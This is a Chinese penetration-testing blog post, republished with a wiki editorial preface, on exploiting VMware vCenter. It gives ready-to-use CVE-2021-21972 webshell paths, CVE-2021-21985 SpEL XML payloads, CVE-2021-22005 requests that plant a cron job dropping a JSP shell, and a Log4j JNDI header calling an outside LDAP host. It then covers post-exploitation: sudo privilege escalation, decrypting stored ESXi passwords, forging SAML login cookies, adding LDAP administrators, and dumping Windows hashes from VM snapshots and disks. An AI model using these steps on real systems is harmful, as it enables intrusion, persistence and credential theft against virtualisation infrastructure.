# vCenter2021 几个漏洞及后渗透 daidaitiehanhan's blog

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 本次正文校订

- 按实际内容修正 7 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 元数据仅22005，包含S2-045/21972/21985/3156/Log4j多个独立问题及后渗透
- Spring XML bean全部id/class缺失且property语法损坏不是可用payload
- authorized_keys写公钥非私钥
- 7u3j在2022文语境是否误写6u3j需核，不能推为仍受21985
- CIEP应CEIP
- json后缀cron可执行性取决crond命名规则需验证
- 22005 Windows6.7不影响说明值得保留
- SAML签名材料/重置密码/LDAP新增/SSH/剪贴板/克隆快照为不同修改与业务影响，须拆操作步骤和回滚
- 与打法总结共享章节保留原始来源与数据库细节

### 操作风险与资料使用

- 含计划任务、启动项或 SSH 授权文件写入：会改变后续执行或登录行为。测试前备份原文件，结束后恢复原内容、权限与属主，不覆盖生产文件。
- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。
- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [daidaitiehanhan.github.io](https://daidaitiehanhan.github.io/2022/04/18/vCenter2021%E5%87%A0%E4%B8%AA%E6%BC%8F%E6%B4%9E%E5%8F%8A%E5%90%8E%E6%B8%97%E9%80%8F/#CVE-2021-22005)

> 参考官方公告，一些老的 Vcenter 可以用 S2-045 直接冲。

[](#S2-045 "S2-045")S2-045
--------------------------

参考[官方公告](https://www.vmware.com/security/advisories/VMSA-2017-0004.html)，一些老的 Vcenter 可以用 S2-045 直接冲。

[](#CVE-2021-21972 "CVE-2021-21972")CVE-2021-21972
--------------------------------------------------

任意文件上传漏洞，会解压用户 tar 中的文件并写入到服务器，此洞拿到 shell 后默认需要提权

接口在 **/ui/vropspluginui/rest/services/uploadova**

利用思路:

*   写 webshell
*   写私钥

### [](#写私钥 "写私钥")写私钥

往目录../../home/vsphere-ui/.ssh/authorized_keys 写就行

### [](#写webshell "写webshell")写 webshell

#### [](#Linuxshell路径 "Linuxshell路径")Linuxshell 路径

**../../usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/41/0/h5ngc.war/resources/log.jsp**

**对应 shell 地址是 / ui/resources/log.jsp**

#### [](#Windows路径 "Windows路径")Windows 路径

**../../../../../ProgramData/VMware/vCenterServer/data/perfcharts/tc-instance/webapps/statsreport/log.jsp**

**对应 shell 地址是 / statsreport/log.jsp**

vcenter 访问不存在的路由比如 / xx/xx 会返回 401，访问 / resources/xx 这种会返回 404，有时候我们写 shell 到 statsreport 访问返回 401，可能是 statsreport 这个模块没起来，可以试试其他路径如

**../../../../ProgramData/VMware/vCenterServer/runtime/VMwareSTSService/webapps/openidconnect/log.jsp**

对应 shell 地址是 openidconnect/log.jsp

或者写入 / vsphrere-client/

对应 Vcenter 6.7 的路径是

**../../../../../ProgramData/VMware/vCenterServer/runtime/vsphere-client/server/work/deployer/s/global/29/container-app-war.war/log.jsp**

Vcenter 6.5 对应的路径是:

**../../../../../ProgramData/VMware/vCenterServer/runtime/vsphere-client/server/work/deployer/s/global/27/0/container-app-war-6.1.0.war**/log.jsp

**对应 shell 地址是 / vsphere-client/log.jsp**

[](#CVE-2021-21985 "CVE-2021-21985")CVE-2021-21985
--------------------------------------------------

此洞拿到 shell 后默认需要提权

### [](#不出网利用 "不出网利用")不出网利用

[https://github.com/r0ckysec/CVE-2021-21985](https://github.com/r0ckysec/CVE-2021-21985)

利用 ClassPathXmlApplicationContext 类加载 xml 文件触发 spel 注入，weblogic 和 jackson 都有关于这个类的 cve，利用方式都差不多。

#### [](#执行系统命令 "执行系统命令")执行系统命令

网上脚本里很多

```
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean>
        <constructor-arg>
          <list>
            <value>/bin/bash</value>
            <value>-c</value>
            <value><![CDATA[ whoami 2>&1 ]]></value>
          </list>
        </constructor-arg>
    </bean>
    <bean>
        <constructor-arg>
            <value>#{pb.start().getInputStream()}</value>
        </constructor-arg>
    </bean>
    <bean>
        <constructor-arg>
            <value>#{is}</value>
        </constructor-arg>
    </bean>
    <bean></bean>
    <bean>
        <property #{ system.setProperty("output", br.lines().collect(collectors.joining("\n"))) }"/>
    </bean>
</beans>
```

#### [](#写文件 "写文件")写文件

写文件的 xml

```
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean>
        <constructor-arg>
            <value>/usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/41/0/h5ngc.war/resources/log2.jsp</value>
        </constructor-arg>
    </bean>
        <bean>
        <constructor-arg>
            <value><![CDATA[<% out.println("ok"); %> ]]></value>
        </constructor-arg>
        <property #{ pb.println(is).close()}"/>
    </bean>
</beans>
```

#### [](#BCEL执行java字节码 "BCEL执行java字节码")BCEL 执行 java 字节码

bcel 执行 java 代码的 xml，这样注内存马更方便。

注意: vCemter 7u3j 及以上默认 java 版本是 jdk8u251，此版本 bcel 无法使用。

```
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean>
    </bean>
        <bean>
        <constructor-arg>
            <value><![CDATA[$$BCEL$$...]]></value>
        </constructor-arg>
        <property #{ pb.loadClass(is).newInstance()}"/>
    </bean>
</beans>
```

### [](#出网利用 "出网利用")出网利用

还有种利用方法是 jndi 注入，没啥特别需要讲的，正常的 jndi 利用就行

[](#CVE-2021-22005 "CVE-2021-22005")CVE-2021-22005
--------------------------------------------------

### [](#影响范围 "影响范围")影响范围

*   vCenter Server 7.0 < 7.0 U2c build-18356314
*   vCenter Server 6.7 < 6.7 U3o build-18485166
*   Cloud Foundation (vCenter Server) 4.x < KB85718 (4.3)
*   Cloud Foundation (vCenter Server) 3.x < KB85719 (3.10.2.2)
*   6.7 vCenters Windows 版本不受影响

### [](#利用 "利用")利用

两种触发方式，一种是开启 CIEP 时 (可发送特殊数据包开启) 通过 log4j 记录日志的功能实现任意文件写入，另一种是通过 Velocity 模板注入执行代码。这个漏洞拿到的权限是 root 权限。

#### [](#CIEP "CIEP")CIEP

可以写入任意文件，但是写入后的文件后缀固定是. json。_i 参数控制可跳跃的路径，最终写入的文件路径如果存在就会把内容追加进文件，不存在就会创建文件，但当如果我们写入的文件名是因某些因素被删除过的文件名，则无法正常写文件。

```http
POST /analytics/telemetry/ph-stg/api/hyper/send?_c=&_i=/../../../../../../tmp/okok HTTP/1.1
Host: 172.16.64.143
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 2

ok
```

由于只能写入. json 后缀的文件，所以略微有点鸡肋，但是对于 linux 的机器我们可以写入计划任务来执行写 shell 的操作

```http
POST /analytics/telemetry/ph-stg/api/hyper/send?_c=&_i=/../../../../../../etc/cron.d/appl3 HTTP/1.1
Host: 172.16.64.143
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 144

* * * * * root echo PCUgICAgICAgIG91dC5wcmludGxuKCJIZWxsb1dvcmxkIik7ICAgICAgJT4=|base64 -d>/usr/lib/vmware-sso/vmware-sts/webapps/ROOT/hello.jsp
```

等 60s 后可在 [https://172.16.64.143/idm/..;/hello.jsp](https://172.16.64.143/idm/..;/hello.jsp) 可以访问到 shell(这里的`/..;/`是因为 Tomcat 会将`/..;/`视作`/../`，可以利用该特性绕过 vCenter 某些版本的 rhttpproxy 的访问限制)。

#### [](#Velocity "Velocity")Velocity

VelocityHelper.executeVelocityExpression 触发 velocity 表达式执行。

可以用[这个师傅的脚本](https://github.com/r0ckysec/CVE-2021-22005)打

[](#log4j "log4j")log4j
-----------------------

可以直接写入内存马，且 vcenter 默认是 tomcat，可以尝试利用 tomcatbypass 模块绕过 jndi 高版本限制写入内存马

```http
GET /websso/SAML2/SSO/vsphere.local?SAMLRequest= HTTP/1.1
Host: 172.16.64.143
User-Agent: curl/7.64.1
Accept: */*
X-Forwarded-For: ${jndi:ldap://172.16.64.1:1389/TomcatBypass/TomcatMemshell1}
```

[](#后渗透 "后渗透")后渗透
-----------------

### [](#提权 "提权")提权

#### [](#CVE-2021-3156 "CVE-2021-3156")CVE-2021-3156

[https://github.com/worawit/CVE-2021-3156](https://github.com/worawit/CVE-2021-3156)

vCenter 的 linux 版可以直接用 sudo 提权 (测了 7u1 和 7u3j)，直接用网上的 python 脚本，c 写的要编译，更麻烦。

重点讲讲两个脚本

[exploit_defaults_mailer.py](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_defaults_mailer.py)

需要在交互的情景使用，使用后会在 / tmp / 目录下生成一个二进制文件，执行文件即可获得一个 root 的 shell

[exploit_userspec.py](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_userspec.py)

往指定地点写入文件内容，这个脚本会往 / etc/passwd 目录下写入一个 gg 用户，其实就是一个任意文件写入的利用。

我们可以通过更改写入的路径和写入的内容，写一个 root 权限的 webshell 到 vCenter 服务器上

[](../../.resource/remote/e07e9fb9610ac0ac7c8010f5ffea1423882ceb97bef7302eef5af1dc96b09ebc.png)

改动 PASSWD_PATH=b’/usr/lib/vmware-sso/vmware-sts/webapps/ROOT/1.jsp’

APPEND_CONTENT=b’webshell 内容’

即可在 [https://172.16.xx.xx/idm/..;/1.jsp](https://172.16.xx.xx/idm/..;/1.jsp) (这里是用到了一个 tomcat 越权的 tips，可以参考 CVE-2021-22005 的利用) 得到一个 root 权限的 webshell

### [](#操作数据库 "操作数据库")操作数据库

[https://3gstudent.github.io/vSphere%E5%BC%80%E5%8F%91%E6%8C%87%E5%8D%974-PostgreSQL](https://3gstudent.github.io/vSphere%E5%BC%80%E5%8F%91%E6%8C%87%E5%8D%974-PostgreSQL)

[https://github.com/shmilylty/vhost_password_decrypt](https://github.com/shmilylty/vhost_password_decrypt)

vcenter 默认数据库文件在 windwos 和 linux 下都叫 vcdb.properties，配置文件中有数据库的明文账号密码

linux 默认路径:

*   /etc/vmware-vpx/vcdb.properties
*   /etc/vmware/service-state/vpxd/vcdb.properties

Windows 默认路径:

*   C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
*   C:\ProgramData\VMware\VMware VirtualCenter\vcdb.properties

利用数据库账号密码登录数据库，默认是 postgresql 数据库，默认只能在 vCenter 服务器本地登录

```
psql -h localhost -d VCDB -U vc
```

查询虚拟主机信息:

```
VCDB=> SELECT id,datacenter_id,file_name,guest_os,ip_address,config FROM vc.vpx_vm;
 id | datacenter_id |                                        file_name                                         | guest_os | ip_address | config 

 43 |             2 | ds:///vmfs/volumes/620b69fc-146b7e5a-c350-000c298f19ff/win7-liangsan/win7-liangsan.vmx   |          |            | 
 21 |             2 | ds:///vmfs/volumes/620b69fc-146b7e5a-c350-000c298f19ff/win7-zhanglili/win7-zhanglili.vmx |          |            | 
 42 |             2 | ds:///vmfs/volumes/620b69fc-146b7e5a-c350-000c298f19ff/fake-zhanglili/fake-zhanglili.vmx |          |            | 
(3 rows)
```

查询 vCenter 中配置的 ESXI 账号密码

```
VCDB=> SELECT name,port,username,password,password_last_upd_dt,product_fullname FROM vc.vpxv_hosts;
     name      | port | username |                                         password                                          |  password_last_upd_dt   |         product_fullname         

 172.16.64.142 |  443 | vpxuser  | *5U2y5stj9v52g0tq1KSfpS5eBnxe1WhsSXoxf1aH+UrVjhrdDzoT/Vs3nNZ1SzK/Xjwy629n4ZuSNU7dTwsfrA== | 2022-02-15 08:56:06.721 | VMware ESXi 6.7.0 build-15160138
(1 row)
```

这个账号密码可以用来登录目标 ESXI 服务器的 ssh，解密需要用到文件 symkey.dat

```
Windows：  C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\ssl\symkey.dat
Linux:  /etc/vmware-vpx/ssl/symkey.dat
```

使用脚本 [decrypt.py](https://github.com/shmilylty/vhost_password_decrypt/blob/main/decrypt.py) 解密拿到明文密码

```shell
python3 decrypt.py symkey.dat password.enc password.txt
```

[](../../.resource/remote/9dec68b8708feccb047f057a8e25a459695b0b5765cd2a0034f72f04f34831e2.png)

现在可以用解出来的密码登录 ESXI 服务器的 SSH，但是 ESXI 服务器默认是没有开启 SSH 服务的，好在这个账号密码也能用于登录这个 ESXI 服务器的 Web 后台，所以我们可以登进 ESXI 后台开启 SSH 服务

[](../../.resource/remote/680c00388617f52831c6f258afa8b400fa9a8777e41695353928344eab82a799.png)

至此我们就可以通过 SSH 连接 ESXI 服务器 (虚拟机的磁盘文件都是存放在 ESXI 服务器上的，当此类文件过大不便于下载回本地时，我们可以通过本地 SSH 连上 ESXI 服务器去操作虚拟机的磁盘或者快照文件)

[](../../.resource/remote/b41eb56dd4ba0aced30d9a04cf4503279f9a3fce1cb4f3adda41b38d37712ff3.png)

### [](#登录后台 "登录后台")登录后台

对于 vCenter 这种集中管控系统，单纯的 webshell 价值不大，核心的东西在管控系统后台，我们需要找一些思路去登录 vCenter 后台。

#### [](#SAML证书 "SAML证书")SAML 证书

[https://www.horizon3.ai/compromising-vcenter-via-saml-certificates/](https://www.horizon3.ai/compromising-vcenter-via-saml-certificates/)

在 vCenter 服务器上找到生成 Cookie 需要用到的数据库文件:

*   Linux:

/storage/db/vmware-vmdir/data.mdb

*   Windows:

C:\ProgramData\VMware\vCenterServer\data\vmdird\data.mdb

*   除此以外真实环境中还有存放 vCenter 备份文件的地方，在 lotus_backup.tar.gz 文件中也保存有 data.mdb

再使用[脚本](https://github.com/horizon3ai/vcenter_saml_login)生成 Cookie

[](../../.resource/remote/7e0595024be2db6a948325925f9ff0ab6d9b5c4784a0f8b20fe89731946b1724.png)

直接使用生成的 Cookie 访问 vCenter 服务器 [https://172.16.64.143/ui](https://172.16.64.143/ui)

或者可以参考 [3gstudent 的文章](https://3gstudent.github.io/vSphere%E5%BC%80%E5%8F%91%E6%8C%87%E5%8D%976-vCenter-SAML-Certificates)，区别就是 3gsteudent 改的脚本可以直接在目标 vcenter 上运行。

先上传 [vCenter_ExtraCertFromMdb.py](https://github.com/3gstudent/Homework-of-Python/blob/master/vCenter_ExtraCertFromMdb.py) 到目标 vcenter 服务器上

```shell
python vCenter_ExtraCertFromMdb.py /storage/db/vmware-vmdir/data.mdb
```

生成证书文件

[](../../.resource/remote/5208522f86770d85e0d8b5d94832b3e33d24b32d439d086ee7d70aeeb697ed2e.png)

然后把 cat 证书文件复制到本地，然后运行脚本 [vCenter_GenerateLoginCookie.py](https://github.com/3gstudent/Homework-of-Python/blob/master/vCenter_GenerateLoginCookie.py) 获取 Cookie

[](../../.resource/remote/37f19ff3b194c8242bf0ade2fa34ded58de0e61c4c67197c7f59c6cd89736ee5.png)

#### [](#重置密码 "重置密码")重置密码

*   Linux:

/usr/lib/vmware-vmdir/bin/vdcadmintool

*   Windows:

C:\Program Files\VMware\vCenter Server\vmdird\vdcadmintool.exe

运行程序选择选项 3 可重制管理员账号密码

[](../../.resource/remote/1beb50e441d7e7f8a1f729f50005a78d88e00800af380dfde8c901554a16532e.png)

#### [](#LDAP添加用户 "LDAP添加用户")LDAP 添加用户

参考 [3gstudent 师傅文章](https://3gstudent.github.io/vSphere%E5%BC%80%E5%8F%91%E6%8C%87%E5%8D%975-LDAP)

可以在目标 vCenter 服务器直接用脚本 [vCenterLDAP_Manage.py](https://github.com/3gstudent/Homework-of-Python/blob/master/vCenterLDAP_Manage.py) 加管理员用户

先增加用户

```shell
python vCenterLDAP_Manage.py adduser
```

例如增加一个 [apple@vsphere.local](mailto:apple@vsphere.local) 的用户，username 就是用户名随便填，dn 这里需要把第一个 CN 改成前面填写的用户名，然后 DC 字段与获取到的 dcAccountDN 一致，userPrincipalName 这里就是真正的登录名，也需要与原本的保持一致，大概照着提示填写即可。

[](../../.resource/remote/baa05921d095e1aabc5fbeed18f87cf12972e3bf1c1138572b0e9e91464e39a8.png)

然后把用户加进管理员组

```shell
python vCenterLDAP_Manage.py addadmin
```

这里直接输入前面加用户的那个 dn 就行

[](../../.resource/remote/58414f3663c4cc947bf00993e07437686bd4c7b0a96698d3f4d6431e979d1a00.png)

添加完成后就能用新加的管理员账号登入后台了

### [](#获得锁屏机器密码或hash "获得锁屏机器密码或hash")获得锁屏机器密码或 hash

假如我们要获取一台锁屏机器 win7-zhanglili 机器的 hash，有哪些思路呢？

首先是一些 Windows 底层的思路，也即是网上常见的忘记 Windows 开机密码那一套

#### [](#KON-BOOT "KON-BOOT")KON-BOOT

[https://kon-boot.com/](https://kon-boot.com/)

可以通过加载 KON-BOOT 镜像文件绕过密码登录进入操作系统后台，不过新点的版本要收费。

将 KON-BOOT 的 iso 镜像上传到 vcenter 中，克隆虚拟机获取目标机器 win7-zhanglili 的克隆机器 fake-zhanglili，将 fake-zhanglili 的 CD/DVD 处镜像更换成 KON-BOOT 的 iso

[](../../.resource/remote/f863ece044815c357f4d7ddc55efca18e582697498fa5d57dffe1e016cd37c38.png)

启动虚拟机 fake-zhanglili，进入 bios(可以选择**启动到固件**这个功能)，把 KON-BOOT 的镜像文件顺序放到第一位

[](../../.resource/remote/bcff8c5641a613bc2c940b9197327ce51c7bf77774968641dcba29d89f138be4.png)

再次重启虚拟机进入 KON-BOOT，后面一路回车

[](../../.resource/remote/e6968933dcce6b630b92f7ce5f827725fbf43055f445374d5cdd43cd033854bb.png)

等 KON-BOOT 加载好后重启虚拟机，这时直接空密码就能登录操作系统或者直接用 shift 后门 (5 下 shift) 弹出 cmd 操作

[](../../.resource/remote/fe60d68b4544c9b2bd17ae75d3dbd9bad3950111580391830a090304c06bb2ec.png)

#### [](#PE工具 "PE工具")PE 工具

类似的，我们也可以利用 PE 工具绕过开机密码登录操作系统，就互联网上忘记 Windows 开机密码那一套都可以拿来撸

#### [](#快照 "快照")快照

指定目标机器 win7-zhanglili 生成快照

[](../../.resource/remote/0798f51cb3a17dfd9da45df1193f15695a6c106fcb79d268b1575d8af3ab402d.png)

在数据存储中找到目标机器快照的. vmem 文件或者. vmsn 文件，下载到本地

[](../../.resource/remote/2775f0aad721556cbb29f3805fb7f07a4177422f0a69a53feaca902747d4a7ae.png)

使用采证工具 volatility 可以读明文密码或 hash

```
\\读取明文密码
volatility_2.6_win64_standalone.exe -f win7-zhanglili-Snapshot1.vmem --profile=Win7SP1x64_23418 lsadump
\\读取hash
volatility_2.6_win64_standalone.exe -f win7-zhanglili-Snapshot1.vmem --profile=Win7SP1x64_23418 hashdump
```

具体 profile 值可参考

[https://github.com/volatilityfoundation/volatility/wiki/2.6-Win-Profiles](https://github.com/volatilityfoundation/volatility/wiki/2.6-Win-Profiles)

[](../../.resource/remote/b2050a3049b78748ece0bb7be35ee823630161e132609570baf5530badc5b4b6.png)

##### [](#快照文件过大的情景 "快照文件过大的情景")快照文件过大的情景

如果快照文件很大或者网络带宽有问题，短时间内无法把快照文件下回本地，有无什么思路？

我们可以利用前面介绍的数据库相关手法控制 ESXI 服务器，直接在 ESXI 服务器上的 ssh 操作快照

#### [](#挂载vmdk "挂载vmdk")挂载 vmdk

克隆虚拟机 win7-zhanglili 生成虚拟机 fake-zhanglili，克隆后的机器 fake-zhanglili 保持关机状态。(开机状态机器的 vmdk 是锁定的，我们无法直接获取到 win7-zhanaglili 机器的 vmdk 文件，所以需要通过克隆一个 fake-zhanglili 机器获取与 win7-zhanglili 相同的 vmdk)

[](../../.resource/remote/0ea2409247417bf96795556305a14bcf687076cbf3a7a69e412c8fa79084b682.png)

新建虚拟机或者找一台可控虚拟机挂载克隆后虚拟机的 vmdk，这里我们利用镜像新建一个虚拟机 win7-liangsan

右键编辑设置，给我们可控的虚拟机 win7-liangsan 挂载硬盘

[](../../.resource/remote/80091747c0ebcb6b2b509f59031fe625c2d2feca127039ea868bda0f98caa969.png)

选择克隆后机器 fake-zhanglili 的 vmdk 文件

[](../../.resource/remote/66422bc93069a9575158eed9450e05128cafd683283293819df52348964e43b8.png)

然后我们打开虚拟机 xin7-liangsan，可以发现已经挂载成功了

[](../../.resource/remote/deaa7649d6ddd6a4be7295a677352d8c48f7b17785b3eb567d7bdcd37ab5f694.png)

然后我们就找相关文件

```
从sam导本地hash可以尝试
SYSTEM :C:\Windows\System32\config\SYSTEM
SAM :C:\Windows\System32\config\SAM

如果目标是DC服务器，还可以导出ntds.dit文件读全域hash
NTDS.dit  : C:\Windows\NTDS\NTDS.dit
```

这里我没搭建 DC 的环境，演示一下导出本地 hash

这里咱们 vcenter 创建的虚拟机并不能很随便地和我们本机随意的复制粘贴，所以传输工具文件还有点小麻烦。解决思路大概分两种情况，一种是直接在我们新建的虚拟机 win-liangsan 上用工具取出 hash，另一种思路是把文件拉回我们本地 (这里 vcenter 上的机器装了 vmtool 也不能直接复制粘贴)

##### [](#在虚拟机上导hash "在虚拟机上导hash")在虚拟机上导 hash

直接内网找一个我们新建虚拟机能通的机器，在该机器上用 python 开个简单的 web 实现文件传输

[](../../.resource/remote/585966f2bded6cdc4ff4395735d8b2a708868976bbaccad29406a2801aac65c6.png)

把 mimikatz 传到我们新建虚拟机 win-liangsan 中，然后复制 SAM 和 SYSTEM 执行 mimikatz 即可导出本地 hash

```
mimikatz lsadump::sam /sam:SAM /system:SYSTEM
```

[](../../.resource/remote/5746900498f80daaac93fe9e09e59919556c79be0e3f3bc55474af7e4f182931.png)

PS：或者也可以制造一份存储有工具的 vmdk 上传到 vcenter 然后挂载到虚拟机里

##### [](#拉到本地 "拉到本地")拉到本地

###### [](#方法一-激活复制-x2F-粘贴功能 "方法一 激活复制/粘贴功能")方法一 激活复制 / 粘贴功能

参考[官方文档](https://docs.vmware.com/cn/VMware-vSphere/7.0/com.vmware.vsphere.security.doc/GUID-367D02C1-B71F-4AC3-AA05-85033136A667.html)在 ESXI 上添加设置，可以开启复制粘贴功能，可以直接复制虚拟机内的文件内容到本地，但是只能复制文件内容且有字符长度限制

```
isolation.tools.copy.disable=false
isolation.tools.paste.disable=false
isolation.tools.setGUIOptions.enable=true
```

###### [](#方法二-在我们可控的虚拟机上开启共享文件夹 "方法二 在我们可控的虚拟机上开启共享文件夹")方法二 在我们可控的虚拟机上开启共享文件夹

把我们需要拉到本地的文件放到一个文件夹中，然后设置该文件夹为共享文件夹，然后从任意能网络通的地方 net use 连接设置了共享文件夹的虚拟机

[](../../.resource/remote/7912b018f2b4753e395a1ccde2cec8688b400a171d900f37b24f6da61fb0def1.png)

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
